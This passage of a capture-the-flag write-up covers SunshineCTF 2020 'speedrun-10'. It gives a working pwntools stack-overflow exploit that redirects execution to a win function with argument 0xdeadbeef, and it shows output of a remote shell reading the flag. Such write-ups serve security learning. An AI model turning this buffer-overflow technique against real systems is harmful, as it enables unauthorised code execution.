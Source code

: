 This is exactly the same as [speedrun-02](#speedrun-02) except that to get a shell we need to pass an argument.  Since this is 32-bit we pass that on the stack.  The arg needs to be `-0x21524111` (`0xdeadbeef`).

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./chall_10')

if not args.REMOTE:
    p = process(binary.path)
else:
    p = remote('chal.2020.sunshinectf.org', 30010)

p.sendlineafter('Don\'t waste your time, or...\n','foobar')

payload  = b''
payload += 0x3e * b'A'
payload += p32(binary.sym.win)
payload += p32(0)
payload += p32(0xdeadbeef)

p.sendline(payload)
p.interactive()
```

Just like [speedrun-02](#speedrun-02), `0x3e` (`local_3e` _remember?_) of garbage followed by the location of `win`.  BUT... we need to setup a stack frame as if we _called_ `win`.  For x86 (32-bit) the next parameter on the stack needs to be the return address the function (`win`) will return to, however, since we just want that sweet sweet `system` shell we don't really care if the program crashes after we get the flag, so set to whatever you like.  The last value we smash onto the stack is the first argument to `win`--`0xdeadbeef`.

Output:

```bash
# ./exploit_10.py REMOTE=1
[*] '/pwd/datajerk/sunshinectf2020/speedrun-10/chall_10'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Opening connection to chal.2020.sunshinectf.org on port 30010: Done
[*] Switching to interactive mode
$ id
uid=1000(chall_10) gid=1000(chall_10) groups=1000(chall_10)
$ ls -l
total 12
-rwxr-xr-x 1 root root     7348 Nov  7 07:49 chall_10
-rw-r----- 1 root chall_10   39 Nov  7 08:52 flag.txt
$ cat flag.txt
sun{second-heartbeat-aeaff82332769d0f}
```
